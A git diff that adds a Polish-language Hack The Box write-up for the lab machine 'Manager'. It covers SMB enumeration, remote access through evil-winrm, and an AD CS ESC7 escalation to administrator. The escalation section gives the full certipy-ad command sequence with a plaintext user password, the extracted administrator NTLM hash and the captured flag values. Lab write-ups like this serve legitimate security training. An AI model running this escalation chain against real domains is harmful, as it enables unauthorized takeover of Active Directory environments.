

Updated images and writeup

diff --git a/HTB - Manager Writeup.md b/HTB - Manager Writeup.md
@@ -1,6 +1,6 @@
 # Hack The Box -- Manager Writeup
 
-![Manager Machine Image](https://www.hackthebox.com/storage/avatars/5ca8f0c721a9eca6f1aeb9ff4b4bac60.png)
+![Manager Machine Image](https://www.hackthebox.com/storage/avatars/5ca8f0c721a9eca6f1aeb9ff4b4bac60.png "Logo")
 
 ## Spis treści
 1. [Wstęp](#wstęp)
@@ -8,21 +8,167 @@
 3. [Metodologia](#metodologia)
 4. [Zdobyte flagi CTF](#zdobyte-flagi-ctf)
 
-
-
 ## Wstęp
 Poniższy writeup zawiera informacje o metodologii, wykorzystanych narzędziach i zdobytych flagach CTF. Przeprowadzone testy penetracyjne dotyczyły maszyny Hack The Box [Manager](https://app.hackthebox.com/machines/Manager), o poziomie trudności *"Medium"*.
 
 ## Wykorzystane narzędzia
-
-|Narzędzie|Wersja|
-|--       |--    |
-|nmap     |7.94  |
+| Narzędzie				| Wersja	 |
+| --					| --		 |
+| nmap					| 7.94		 |
+| Nessus Essentials		| 10.4.2	 |
+| Metasploit Framework	| 6.3.46-dev |
+| Impacket				| v0.11.0	 |
+| winexe				| 1.1		 |
+| evil-winrm			| v3.5		 |
+| certify.exe			| v1.0.0	 |
+| Certipy				| v4.7.0	 |
 
 ## Metodologia
+> TODO do screena htb-30.PNG
 
-> TODO
+### Weryfikacja dostępu SMB
+Wykorzystano moduł Metasploit Framework `auxillary/smb/smb_login`, aby zweryfikować możliwość logowania do zasobów sieciowych SMB dla użytkownika *Raven*.
+
+![msfconsole-smb-conf](images/htb-30.PNG "Parametry modułu smb_login")
+
+Uruchomienie modułu pozwoliło na weryfikację dostępu dla tego użytkownika.
+
+![msfconsole-smb-run](images/htb-31.PNG "Aktywacja modułu smb_login")
+
+Uzyskanie dostępu SMB do maszyny przeprowadzono z wykorzystaniem programu impacket-smblclient dla użytkowników *operator* i *Raven*. Po wyświetleniu zawartości otrzymano informację o braku wybranego udziału sieciowego.
+
+![impacket-smb-login1](images/htb-32.PNG "Logowanie SMB operator")
+![impacket-smb-login2](images/htb-33.PNG "Logowanie SMB Raven")
+
+Przeprowadzono weryfikację aktywnych udziałów przydzielonych dla użytkowników.
+
+![impacket-smb-shares](images/htb-34.PNG "Weryfikacja dostępnych udziałów")
+
+Zasoby `ADMIN$`, `C$` nie są dostępne dla zwykłych użytkowników. Dostępne są:
+
+- `IPC$` - domyślny udział Korzystając z tej sesji, system Windows umożliwia anonimowym użytkownikom wykonywanie pewnych działań, takich jak wyliczanie nazw kont domeny i udziałów sieciowych.
+
+![impacket-smb-shares2](images/htb-35.PNG "Zawartość udziału IPC$")
+
+- `NETLOGON` - to współdzielony folder, który zawiera pliki skrypty logowania Group Policy oraz inne pliki wykonywalne.
+- `SYSVOL` - zawiera kopię publicznych plików domeny serwera, takich jak obiekty Group Policy i skrypty dla bieżącej domeny i całego przedsiębiorstwa. Zawartość tego udziału jest replikowana do wszystkich kontrolerów domeny w domenie Windows Server.
+
+
+![impacket-smb-shares3](images/htb-36.PNG "Zawartość udziałów NETLOGON i SYSVOL")
+
+Weryfikując poszczególne udziały sieciowe nie znaleziono informacji lub plików pozwalających na dalszą eksploitację protokołu.
+
+
+### Zdalny dostęp dla użytkownika
+Przeprowadzono szereg prób uzyskania zdalnego dostępu. Próba wykorzystania programu winexe zakończyła się niepowodzeniem. Program jest dedykowany dla systemów NT/2000/XP/2003, w których nie zawiera się wersja atakowanego systemu.
+
+![winexe](images/htb-37.PNG "Próba dostępu z winexe")
+
+Nie uzyskano dostępu z wykorzystaniem oprogramowania psexec (pochodzącego z pakietu Sysinternals), co wskazuje jego brak na urządzeniu końcowym. Dodatkowo dostępne udziały sieciowe nie mają zdefiniowanych uprawnień do zapisu, dlatego operowanie na nich okazało się nieskuteczne.
+
+![psexec](images/htb-38.PNG "Próba dostępu z psexec")
+
+Nie uzyskano dostępu z wykorzystaniem wmiexec, będącego elementem Windows Management Instrumentation umożliwiającym zdalne wykonanie kodu w ramach tego narzędzia.
+
+![wmic](images/htb-39.PNG "Próba dostępu z wmiexec")
+
+Ostatecznie uzyskano zdalny dostęp z wykorzystaniem narzędzia evil-winrm, które tworzy powłoki wykorzystujące Windows Remote Management.
+
+![evil-winrm-raven](images/htb-40.PNG "Uzyskanie zdalnego dostępu")
+
+Flaga użytkownika została znaleziona na pulpicie użytkownika *Raven*.
+
+![ctf-user](images/htb-41.PNG "Znaleziona flaga użytkownika")
+
+### Eskalacja uprawnień
+Metodologią prób i błędów rozważono możliwości eskalacji dostępu do konta z uprawnieniami administratora. Pierwotnie rozważone zostało dostarczenie oprogramowania mimikatz, pozwalającego na kradzież poświadczeń domenowych. Dostarczenie tego oprogramowania wymagało następujących kroków:
+
+- Uzyskanie dostępu do folderu z zawartością tymczasową
+	- *Alternatywnie* -- usunięcie śladów po wykonaniu programu
+- Dodanie wyjątku do zapory sieciowej Windows Defender dla lokalizacji dostarczonego programu mimikatz.
+
+Oba te kroki nie mogły zostać zrealizowane, ze względu na niewystarczające uprawnienia dostępu dla użytkownika.
+
+![mimikatz-fail](images/htb-43.PNG "Próby przygotowania do dostarczenia mimikatz")
+
+Na etapie weryfikacji zawartości folderów użytkownika znaleziono niestandardowe oprogramowanie, najprawdopodobniej dostarczone przez innych uczestników HTB.
+
+![nonstandard-soft](images/htb-42.PNG "Niestandardowe oprogramowanie w folderze użytkownika")
+
+- `winpeas.exe` -- pozwala na wykonanie szeregu skryptów, wskazujących możliwe ścieżki do eskalacji uprawnień
+- `certify.exe` -- pozwala na enumerację błędnej konfiguracji Active Directory Certificate Services
+
+Wykorzystano drugie narzędzie, obierając taktykę eskalacji uprawnień z wykorzystaniem domeny AD CS.
+```
+certify.exe find /vulnerable
+```
+Użycie powyższej komendy zapewnia weryfikację systemu pod kątem podatnych szablonów certyfikatów AD CS.
+
+![cerify](images/htb-44.PNG "Poszukiwanie podatnych szablonów certyfikatów")
+
+Użytkownik *Raven* posiada prawa do zarządzania Certificate Authority, co pozwala na eskalację domenową [ESC7](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2). Jej przebieg jest następujący:
+
+1. Weryfikacja, czy użytkownik posiada uprawnienia *ManageCA*.
+2. Nadanie użytkownikowi prawa do zarządzania certyfikatami, przez ustanowienie roli użytkownika certyfikującego.
+```
+certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3ve10P3r!123'
+```
+3. Uruchomienie szablonu `SubCA` dla tej domeny.
+```
+certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username 'raven@manager.htb' -password 'R4v3nBe5tD3ve10P3r!123'
+```
+4. Wysłanie zapytania o certyfikat, w oparciu o szablon `SubCA` (zostanie odrzucone).
+```
+certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3ve10P3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 'administrator@manager.htb'
+```
+5. Wystawienie odrzuconego certyfikatu, z wykorzystaniem uprawnień `ManageCA` i `Manage Certificates`.
+```
+certipy-ad ca -ca 'manager-DC01-CA' -issue-request <REQUEST-ID> -username raven@manager.htb -password 'R4v3nBe5tD3ve10P3r!123'
+```
+6. Pobranie wystawionego certyfikatu.
+```
+certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3ve10P3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve <REQUEST-ID>
+```
+7. Uzyskanie wartości NTLM hash dla konta administratora.
+```
+certipy-ad auth -pfx administrator.pfx -username administrator -domain manager.htb -dc-ip 10.10.11.236
+```
+8. Logowanie na konto administratora z wykorzystaniem NTLM hash.
+
+Pierwotnie proces ten nie mógł zostać zrealizowany, ze względu na brak rozwiązania nazwy domenowej maszyny HTB, występujący na etapie rekonesansu dostępnych usług. 
+
+![http-page](images/htb-45.PNG "Widok strony bez rozwiązania nazwy DNS")
+
+Rozwiązaniem było dodanie domeny do pliku `/etc/hosts`:
+```
+echo "10.10.11.236 manager.htb www.manager.htb" >> /etc/hosts
+```
+
+Co ostatecznie pozwoliło przeprowadzić wyżej wymienione kroki (1-6), z wykorzystaniem certipy-ad:
+
+![certipy-ad](images/htb-46.PNG "Eskalacja uprawnień z wykorzystaniem SubCA")
+
+Krok 7 może stanowić problem, gdyż zbyt różnica między zegarami obu systemów nie pozwala na przesłanie wartości NTLM hash, ze względu na ograniczenia czasowe systemu uwierzytelniania Kerberos. Wymagana jest wtedy synchronizacja zegaru systemowego do zegaru atakowanej maszyny wykorzystując np. protokół NTP.
+```
+ntpdate -u 10.10.236
+```
+
+![certipy-ad2](images/htb-47.PNG "Uzyskanie NTLM hash konta administratora")
+
+Co pozwala przejść do właściwej eskalacji uprawnień, wykorzystując uwierzytelenienie Kerberos z pozyskanym hashem, o wartości:
+`aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`
+Wartościo hash są reprezentowane odpowiednio:
+`LM hash : NT hash`
+
+Do zalogowania, wykorzystana została wartość NT hash.
+![admin-login](images/htb-48.PNG "Uzyskanie dostępu do konta administratora")
+
+Przeprowadzono proces szukania flagi, analogiczny jak dla użytkownika *Raven*, uzyskując tym samym flagę konta administratora.
+
+![admin-login](images/htb-49.PNG "Uzyskanie dostępu do konta administratora")`
 
 ## Zdobyte flagi CTF
-
-> TODO
+| Typ				| Lokalizacja								| Wartość							|
+| --				| --										| --								|
+| Użytkownika		| C:\Users\Raven\Desktop\user.txt			| f3280ad8d8f2982a88c28ac862e7ece7	|
+| Administratora	| C:\Users\Administrator\Desktop\root.txt	| 92ed6f62735664d0d7c49ffc4e793606	|
